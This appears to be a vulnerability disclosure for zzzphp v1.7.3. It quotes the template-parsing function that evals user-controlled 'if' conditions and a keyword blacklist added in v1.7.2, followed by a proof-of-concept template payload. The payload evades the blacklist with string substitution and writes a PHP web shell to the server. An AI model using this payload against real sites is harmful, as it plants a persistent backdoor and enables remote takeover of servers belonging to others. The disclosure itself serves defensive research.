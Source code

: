 # General
    Vulnerability Name: zzzphp v1.7.3 code execution (latest version)
    Product Homepage: http://www.zzzcms.com
    Software Link: http://115.29.55.18/zzzphp.zip
    Version: v1.7.3

# Vulnerability Overview
Affected code is located at `inc/zzz_template.php:2335`, function `parserIfLabel`.
```php
function parserIfLabel( $zcontent ) {
	$pattern = '/\{if:([\s\S]+?)}([\s\S]*?){end\s+if}/';
	if ( preg_match_all( $pattern, $zcontent, $matches ) ) {
		$count = count( $matches[ 0 ] );
		for ( $i = 0; $i < $count; $i++ ) {
			$flag = '';
			$out_html = '';
			$ifstr = $matches[ 1 ][ $i ];
			$ifstr=danger_key($ifstr);
			$ifstr = str_replace( '=', '==', $ifstr );	
			$ifstr = str_replace( '<>', '!=', $ifstr );
			$ifstr = str_replace( 'or', '||', $ifstr );
			$ifstr = str_replace( 'and', '&&', $ifstr );
			$ifstr = str_replace( 'mod', '%', $ifstr );						
			@eval( 'if(' . $ifstr . '){$flag="if";}else{$flag="else";}' );
			if ( preg_match( '/([\s\S]*)?\{else\}([\s\S]*)?/', $matches[ 2 ][ $i ], $matches2 ) ) { // 判断是否存在else			
				switch ( $flag ) {
					case 'if': // 条件为真
						if ( isset( $matches2[ 1 ] ) ) {
							$out_html .= $matches2[ 1 ];
						}
						break;
					case 'else': // 条件为假
						if ( isset( $matches2[ 2 ] ) ) {
							$out_html .= $matches2[ 2 ];
						}
						break;
				}
			} elseif ( $flag == 'if' ) {
				$out_html .= $matches[ 2 ][ $i ];
			}
			// 无限极嵌套解析
			$pattern2 = '/\{if([0-9]):/';
			if ( preg_match( $pattern2, $out_html, $matches3 ) ) {
				$out_html = str_replace( '{if' . $matches3[ 1 ], '{if', $out_html );
				$out_html = str_replace( '{else' . $matches3[ 1 ] . '}', '{else}', $out_html );
				$out_html = str_replace( '{end if' . $matches3[ 1 ] . '}', '{end if}', $out_html );
				$out_html = $this->parserIfLabel( $out_html );
			}
			// 执行替换
			$zcontent = str_replace( $matches[ 0 ][ $i ], $out_html, $zcontent );
		}
	}
	return $zcontent;
}
```
This function is mainly to parse the if statement in the template file. Besides execute blacklist substitution for `$ifstr`, which is added in v1.7.2. The replacement function is as follows:

```php
function danger_key($s) {
	$danger=array('php','preg','server','chr','decode','html','md5','post','get','file','dir','cookie','session','sql','del','encrypt','$','system','exec','shell','open','ini_','chroot','eval','passthru','include','require','assert','union','_','?');
	$s = str_ireplace($danger,"*",$s);
	$key=array('php','preg','decode','post','get','cookie','session','$','exec','eval','replace');
   foreach ($key as $val){
	   if(strpos($s,$val) !==false){
		error('很抱歉，您模板中包含危险字符,【'.$val.'】,Sorry your template contains dangerous characters');
		}
   }
	return $s;
}
```

## POC: (Bypass the patch from v1.7.2)

```php
{if:1=1);file_put_contents(strtr("1.p*p", "*", "h"),strtr('<?*h* ', "*", "p").strtr('ev*l(', "*", "a").hex2bin('24').strtr('_P*ST[1]);', "*", "O"));//} {end if}
```

![](https://ae01.alicdn.com/kf/H8d8d07e843e5475285a61cb1c9f741f6P.jpg)

![](https://ae01.alicdn.com/kf/H165b250539834c9790a826b7fef9ab4d0.jpg)

![](https://ae01.alicdn.com/kf/H56cdd2dbe2f04d1691fba2caab9341dbt.jpg)

![](https://ae01.alicdn.com/kf/He1a5504ebce54f40b1370844211a6bfd7.jpg)
